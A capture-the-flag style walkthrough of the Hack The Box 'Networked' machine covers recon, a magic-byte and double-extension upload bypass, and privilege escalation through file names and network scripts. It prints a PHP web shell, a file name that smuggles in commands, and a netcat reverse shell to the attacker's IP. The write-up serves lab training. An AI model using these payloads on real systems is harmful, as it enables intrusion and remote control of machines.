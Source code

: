 # Networked Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -sC -sV -oA networked 10.10.10.146``

![image](https://user-images.githubusercontent.com/123066149/227840214-3b304fe1-8e62-4104-a92d-a2b37f2675cd.png)

``gobuster dir -u http://10.10.10.146/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/227840269-4d6b3ee7-a5af-4c5f-a298-6dd58ad233b3.png)

# ${{\color{purple}Initial Foothold}}\ $

``http://10.10.10.146/backup/``

![image](https://user-images.githubusercontent.com/123066149/227840373-08e60823-63f6-4cc0-9a5c-a231c5c4a623.png)

``tar –xvf documents.tar``

### The upload.php lets us upload files and the photos.php displays them. The backup folder
### contains a tar archive, which seems interesting. Let’s download and examine it

![image](https://user-images.githubusercontent.com/123066149/227840430-e93de6fd-708c-4284-866d-f0ddecc92206.png)

### We obtained the source for the PHP files. Looking at the upload.php, we see it checking the file
type:

![image](https://user-images.githubusercontent.com/123066149/227840656-4c6d27e4-aee4-4159-8e0f-ed6d3f227204.png)

### The check_file_type function is present in the lib.php file:

![image](https://user-images.githubusercontent.com/123066149/227840704-7dc51d5e-a41b-4bf2-9266-e316a2bde0a7.png)

### This in turn calls file_mime_type(), and rejects the file if it’s not an image. The check_file_type()
### function uses mime_content_type() to get the MIME type.

![image](https://user-images.githubusercontent.com/123066149/227840785-b3c2c92b-eea3-4b89-a0f9-ea4aee86e6aa.png)

### The mime_content_type() determines the filetype based on it’s magic bytes, which means that
### we can include magic bytes for a PNG file at the beginning and bypass the filter

![image](https://user-images.githubusercontent.com/123066149/227840934-754fb74e-aa96-489e-9eb0-b2a098083300.png)

### The code only accepts image extensions, although it doesn’t check if it has any other extension
### before them. This can be exploited by adding “.php” before a valid extension, which can be
### exploitable, depending on the Apache configuration. Let’s try uploading a normal PHP shell with
### a PNG extension first

![image](https://user-images.githubusercontent.com/123066149/227841052-4b4e78fe-d4dd-4cb0-96e9-cf330e25f3b5.png)

![image](https://user-images.githubusercontent.com/123066149/227841167-263fd0f8-0534-4a00-8fec-e1cf17881c46.png)


# ${{\color{purple}Exploitation}}\ $

### As expected, the image gets rejected due to invalid MIME type. The magic bytes for PNG are “89
### 50 4E 47 0D 0A 1A 0A”, which can be added to the beginning of the shell
### or this can be added : GIF87a

### A good resource for mime types :

https://developer.mozilla.org/fr/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types

``echo -n -e 'GIF87a <?php echo system($_REQUEST['cmd']); ?>' > test.php.png``

![Capture](https://user-images.githubusercontent.com/123066149/227841834-b763c42a-c266-49dc-a1f7-64808221c9b7.PNG)

![Capture](https://user-images.githubusercontent.com/123066149/227842641-397310f2-31fd-4d89-833c-719c504c3184.PNG)

![image](https://user-images.githubusercontent.com/123066149/227842600-2ce8bdf9-3752-4d0e-93cc-97db985ac6a0.png)


# ${{\color{purple}Privilege Escalation}}\ $

### Browsing to the home folder of the user, two files named check_attack.php and crontab.guly are
### found.

![image](https://user-images.githubusercontent.com/123066149/227843320-a1b71d72-746c-4e17-b4f5-86e265ca86f9.png)

### Here are the contents of the check_attack.php file:

![image](https://user-images.githubusercontent.com/123066149/227844068-b8db5212-4a6f-4750-a795-26b2d0caf341.png)

### The script lists files in the /uploads folder and checks if it is valid based on filename. Any invalid
### files are removed using the system exec() function

![image](https://user-images.githubusercontent.com/123066149/227844227-1976b7a1-48f0-4c01-a085-fb9797b432de.png)

### The $value variable stores the filename, but isn’t sanitized by the script, which means that we can
### inject commands through special file names. For example, a file named “; cmd” will result in the
### command:

![image](https://user-images.githubusercontent.com/123066149/227844740-539c6b45-6e74-4567-9540-b191b026b398.png)

``touch -- ';ping -c 3 10.10.16.3;.php'``

![image](https://user-images.githubusercontent.com/123066149/227845494-d10710e3-4933-48f8-8e2c-a21432e1a0c5.png)

![image](https://user-images.githubusercontent.com/123066149/227846087-d38a33ba-4258-4c9c-89fe-eb9ec5c5e2cc.png)

``touch -- ';nc -c sh 10.10.16.3 5000;.php'``

![image](https://user-images.githubusercontent.com/123066149/227846212-c4f52290-2b68-48bb-b91a-4d7130e08c0d.png)

#### Looking at the sudo privileges, we see that guly can execute changename.sh as root.

![image](https://user-images.githubusercontent.com/123066149/227846847-5740d7e8-5a43-4e94-9b37-bdc8bd2fe270.png)

https://seclists.org/fulldisclosure/2019/Apr/24

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/227845992-a2b2c4a3-fb09-461b-bcb1-4d12bec8eec1.png)

### The script creates a configuration for the guly0 network interface and uses “ifup guly0” to
### activate it at the end. The user input is validated, and only alphanumeric characters, slashes or a
### dash are allowed. Network configuration scripts on CentOS are vulnerable to command injection
### through the attribute values as described here. This is because the scripts are sourced by the
### underlying service, leading to execution of anything after a space.
### We can exploit this by executing /bin/bash as root

![image](https://user-images.githubusercontent.com/123066149/227846976-ed89973a-9f35-4815-8f0a-4749204d3e4f.png)

![image](https://user-images.githubusercontent.com/123066149/227847970-b2758cd6-691b-443b-81bb-60d69b4e1103.png)

# ${{\color{purple}Point of Improvement}}\ $
